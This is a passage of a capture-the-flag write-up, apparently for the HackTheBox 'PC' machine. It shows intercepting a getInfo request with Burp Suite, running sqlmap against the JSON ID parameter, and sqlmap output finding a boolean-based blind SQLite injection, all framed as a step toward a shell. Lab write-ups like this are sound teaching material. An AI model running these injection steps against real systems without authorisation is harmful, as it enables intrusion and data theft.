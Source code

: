 ![using-jwt-on-getinfo](/assets/images/machines/htb/pc/getinf.png)

Doing this returns the following message:

```json
{ "message": "The admin is working hard to fix the issues."}
```
Nothing of interest here, at this point our best bet is going to be to intercept the request with Burp Suite and see what sort of response we get to manipulating different parts of the request field. I am going to assume that the __ID__ parameter is probably what is vulnerable, so let's test for potential injection vulnerabilities.

## SQL Injection (shell as Sau)

When using the __getInfo__ method, it is possible to inject SQL queries into the vulnerable ID parameter. There are several different ways you can do this but in this case I used sqlmap. I saved the captured POST request of the __getInfo__ method, it is the request sent in the most previous screenshot. sqlmap is a very complex tool, the first command I always running when testing a parameter for injection vulnerabilities is the following:

```bash
sqlmap -r 'path_to_request_file'
```

It is a super quick and simple one, in most cases you will need much more information to find potential injection vulnerabilities; luckily enough for us, we do not need a more complex command, this one will get us exactly what we want.

Running this command will get you the following output:

```bash
[*] starting @ 20:57:47 /2023-06-20/

[20:57:47] [INFO] parsing HTTP request from 'request-burp'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '_grpcui_csrf_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] 
[20:57:58] [INFO] resuming back-end DBMS 'sqlite' 
[20:57:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```